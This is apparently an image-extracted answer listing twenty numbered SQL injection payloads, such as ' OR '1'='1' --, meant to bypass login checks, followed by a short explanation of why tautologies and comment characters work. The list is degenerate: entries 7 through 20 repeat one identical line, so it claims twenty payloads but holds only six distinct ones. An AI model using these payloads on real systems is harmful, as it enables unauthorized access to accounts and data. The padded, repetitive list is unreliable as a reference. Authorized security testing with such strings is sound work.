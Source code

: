Here are some SQL injection test payloads that can be used to test the identified vulnerable inputs:

1. ' OR '1'='1
2. ' OR '1'='1' --
3. ' OR '1'='1' #
4. ' OR '1'='1' /*
5. ' OR '1'='1' AND ''='
6. ' OR '1'='1' AND ""=""
7. ' OR '1'='1' AND ""=""
8. ' OR '1'='1' AND ""=""
9. ' OR '1'='1' AND ""=""
10. ' OR '1'='1' AND ""=""
11. ' OR '1'='1' AND ""=""
12. ' OR '1'='1' AND ""=""
13. ' OR '1'='1' AND ""=""
14. ' OR '1'='1' AND ""=""
15. ' OR '1'='1' AND ""=""
16. ' OR '1'='1' AND ""=""
17. ' OR '1'='1' AND ""=""
18. ' OR '1'='1' AND ""=""
19. ' OR '1'='1' AND ""=""
20. ' OR '1'='1' AND ""=""

These payloads are designed to bypass authentication mechanisms by injecting SQL code into user input fields. They work by manipulating the SQL query to always return true, thereby bypassing any checks the system may have in place. The '--', '#', and '/*' are used to comment out the rest of the query to prevent syntax errors.